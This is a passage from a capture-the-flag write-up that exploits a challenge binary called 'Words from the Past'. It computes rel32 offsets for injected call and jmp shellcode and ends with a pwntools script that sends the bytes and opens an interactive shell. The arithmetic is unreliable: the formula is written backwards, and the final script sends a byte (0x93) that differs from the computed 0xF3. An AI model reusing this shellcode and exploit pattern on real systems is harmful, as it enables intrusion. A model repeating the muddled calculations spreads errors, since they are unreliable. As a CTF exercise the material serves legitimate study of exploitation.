





Our “stage-1” target is `main()` function. Its offset or `rel32` is calculated below.

```
current_rip = 0x5567289f7000
target_addr = 0x5567289e76d5

rel32 = two_complement((current_rip + 0x5) - target_addr)
rel32 = two_complement((0x5567289f7000 + 0x5) - 0x5567289e76d5)
rel32 = two_complement(0xf930)

two_complement(x) = 2s complement of x

two_complement(0xf930) = NOT(1111100100110000) + 1 = 0xFFFF06D0

rel32 = 0xFFFF06D0
or
rel32 = \xD0\x06\xFF\xFF in Little Endian Order
```

Let’s restart our application and send our “stage-1” payload —

```
stage_1 = b"\xE8\xD0\x06\xFF\xFF"
```



As we can see above, we’ve called `main()` again and this time it will execute `if` block.



There we have it. Now, let’s calculate “stage-2” displacement or `rel32`.

```
current_rip = 0x7f6e209f9000
target_addr = 0x7f6e21a00000 + 0x583f3 = 0x7f6e21a583f3

rel32 = signed((current_rip + 0x5) - target_addr)
rel32 = two_complement((0x7f6e209f9000 + 0x5) - 0x7f6e21a583f3)
rel32 = two_complement(-0x105f3ee)

two_complement(x) = 2s complement of x

two_complement(-0x105F3EE) = NOT(1111111111111111111111111111111111111110111110100000110000010010) + 1 
= 0x0105F3EE

rel32 = 0x0105F3EE
or
rel32 = \xEE\xF3\x05\x01 in Little Endian Order
```





Finally, our complete exploit script —

```
from pwn import *

p = process("./words_from_the_past")

print(p.clean())

p.send(b"\xE8\xD0\x06\xFF\xFF")

print(p.clean())

p.send(b"\xE9\xEE\x93\x05\x01")

p.interactive()

p.close()
```

Running remotely —



🩷 We have successfully pwned `Words from the Past` binary and thus completed the challenge… Happy Hacking!